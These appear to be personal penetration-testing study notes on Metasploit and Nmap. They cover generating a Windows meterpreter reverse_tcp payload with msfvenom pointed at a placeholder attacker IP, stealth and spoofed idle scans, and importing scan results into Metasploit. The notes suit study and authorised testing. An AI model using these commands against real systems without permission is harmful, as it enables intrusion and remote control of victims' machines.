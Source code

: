 ```
ls /usr/share/metasploit-framework/scripts/resoure # prebuild metasploit scripts
sudo msfconsole -r ~/Desktop/start_listener.rc # run a script

# create a payload with MSFvenom: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacher IP address> -f exe -o payload.exe
```

#  Intelligence Gathering

The goal of Intelligence Gathering is to gain accurate information about the targets without revealing our presence, learn how the organization operates, and determine the best way in.

## Passive Information Gathering

```
whois trustedsec.com
https://searchdns.netcraft.com 
sudo dig mx trustedsec.com # look for email servers
```

## Active Information Gathering

```
sudo nmap -sS -Pn scanme.nmap.org # -sS: stealth scan -Pn: no ping 
# -A: OS detection, version detection, script scanning, and trace route
sudo namp -Pn -sS -A scanme.nmap.org 

```

### Importing Nmap Results into Metasploit

```
sudo systemctl start postgresql
sudo msfdb init # initialize the database
sudo netstat -antp | grep postgres # verify PostgreSQL is running
# scan a range of ip address and put the results in an xml file
sudo nmap -Pn -sS -A -oX Results-Subnet1.xml 192.168.1.0/24
```

```
msfconsole
db_status # check db status in Metasploit
db_import Results-Subnet1.xml # inports nmap results
hosts -c address
```

### Performing TCP Idle Scans

Want to run nmap by spoofing and idle IP address on the network. This approach is more stealthy

First use msf to find an idle IP address:

```
use auxiliary/scanner/ip/ipidseq
show options
set RHOSTS 192.168.1.0/24
set THREADS 50
run

# now use the idle IP address with nmap to run a scan on a host
nmap -PN -sI <spoof ip> <target ip>
db_nmap -sS -A <target ip> # run nmap with msfconsole, add results to database
services # shows database
```
